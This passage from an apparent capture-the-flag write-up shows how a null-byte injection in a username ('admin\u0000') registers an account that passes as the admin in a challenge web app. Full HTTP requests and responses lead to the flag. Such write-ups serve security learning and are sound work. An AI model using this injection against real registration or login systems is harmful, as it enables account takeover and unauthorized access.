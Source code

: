 ## Exploitation

Armed with above information, we can try to send the following POST request to route `/register`:

```http
POST /register HTTP/2
Host: arclbroth-xdt9d.instancer.lac.tf
Content-Type: application/json
Content-Length: 48

{"username":"admin\u0000","password":"anything"}
```

Response:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Date: Tue, 11 Feb 2025 08:33:21 GMT
Etag: W/"10-oV4hJxRVSENxc/wX8+mA4/Pe4tA"
Set-Cookie: session=139520655927309; Path=/
X-Powered-By: Express
Content-Length: 16

{"success":true}
```

Oh nice! It worked!

To get the flag, we need to first reset our numbers of arc to 100 via sending this POST request:

```http
POST /replenish HTTP/2
Host: arclbroth-xdt9d.instancer.lac.tf
Cookie: session=139520655927309
Content-Type: application/json
Content-Length: 0


```

Then, send a POST request to `/brew`:

```http
POST /brew HTTP/2
Host: arclbroth-xdt9d.instancer.lac.tf
Cookie: session=139520655927309
Content-Type: application/json
Content-Length: 0


```

Response:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Date: Tue, 11 Feb 2025 08:34:25 GMT
Etag: W/"4c-x32qd/XAH6LqQjlHN9VseXw0Px0"
X-Powered-By: Express
Content-Length: 76

{"broth":"lactf{bulri3v3_it_0r_n0t_s3cur3_sqlit3_w4s_n0t_s3cur3}","arcs":50}
```
